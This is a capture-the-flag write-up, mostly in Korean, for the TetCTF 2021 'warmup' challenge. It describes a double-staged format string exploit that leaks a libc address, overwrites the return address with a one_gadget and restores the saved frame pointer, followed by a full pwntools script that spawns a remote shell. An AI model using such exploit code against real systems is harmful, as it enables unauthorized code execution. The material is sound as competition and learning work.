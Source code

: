```yaml
---
layout: post
title: TetCTF 2021 warmup writeup
categories: ctf-write-up
tags: [ctf]
---
```



## warmup

현재 올라와있는 write-up과 주변 지인이 푼 방법을 들었을 때 아마 이 풀이는 `unintended solution` 일 것이다.

처음에 팀원이 이 문제를 보고 있다고해서 다른 문제를 보고있었는데 fsb가 발생하는 부분이 있다고 해서 그 부분만 이용해서 풀었다.



일단 더블스테이지를 이용하여 stack의 ret주소를 main함수로 변경하면서 libc_start_main_ret 주소를 leak한다.

이 과정에서 약간의 스택 주소에 대한 브포가 필요하다.



그 이후 스택을 가리키는 포인터 2개를 이용하여 ret 주소를 one_gadget 주소로 수정하면 된다.

이때 주의할 점은 스택을 가리키는 포인터를 이용할 경우 SFP가 변조되어 ret를 수정하더라도 다른 주소로 이동하게 된다.

따라서 SFP를 변조하여 ret를 수정한 이후에 다시 SFP를 원래 값으로 복원해주어야 하며 이 과정에서 약간의 브포가 필요하다.



대략 익스플로잇의 확률은 1/256 정도 되는거 같다. 문제를 50분정도 늦게 봐서 2분차이로 세컨드 솔브,,



요약 (Summary)

1. Using `double staged fsb`, change the return address of the stack to **main** and leak the **libc_start_main_ret** address.
   - a little brute forcing
2. Using `double staged fsb`, change the return address of the stack to **one_gadget**
3. Restore the `SFP`  
   - SFP should be changed when changing the return address of the stack.
   - When the SFP changes, it moves to a different address
   - a little brute forcing

```python
from pwn import * 

e = ELF('./warmup')
libc = e.libc

while True:
    #p = process('./warmup', env={'LD_PRELOAD':'./libc-2.23.so'})
    p = remote("192.46.228.70", 32337)

    # stage 1
    payload = ''
    payload += '%c' * 18
    payload += '%{}c'.format(0x88 - 18)
    payload += '%hhn'
    payload += '%{}c'.format(0xaa-0x88)
    payload += '%26$hhn'
    payload += '%29$p'

    p.sendlineafter('? ', '0')
    p.sendlineafter(': ', payload)

    p.recvuntil('0x')
    leak = int(p.recv(12), 16)
    libc_base = leak - libc.sym['__libc_start_main'] - 240

    print hex(libc_base)

    p.sendlineafter('Your bet (= 0 to exit): ','0')

    try:
        p.sendlineafter('Send to author your feeback: ', '0')
    except:
        p.close()
        continue

    one_gadget = libc_base + 0x45226

    try:
        p.sendlineafter('? ', '0')
    except:
        p.close()
        continue

    # stage 2
    payload = ''
    payload += '%c' * 8
    payload += '%{}c'.format(0x98 - 8)
    payload += '%hhn'
    payload += '%c' * 8
    payload += '%{}c'.format(0x199 - 0x98 - 8)
    payload += '%hhn'
    payload += '%{}c'.format(0x100 + (one_gadget & 0xff) - 0x99)
    payload += '%hhn'
    payload += '%{}c'.format(((one_gadget >> 8) & 0xffff) - (one_gadget & 0xff) - 0x200)
    payload += '%26$hn'

    # stage 3 (sfp restoration)
    payload += '%{}c'.format(0x178 - 0xd2)
    payload += '%10$hhn' # 78
    payload += '%{}c'.format(0x88 - 0x78)
    payload += '%20$hhn' # 88

    print hex(one_gadget)
    p.sendlineafter(': ', payload)

    p.sendlineafter('Your bet (= 0 to exit): ','0')
    p.sendlineafter('Send to author your feeback: ', '0')
    p.interactive()
```


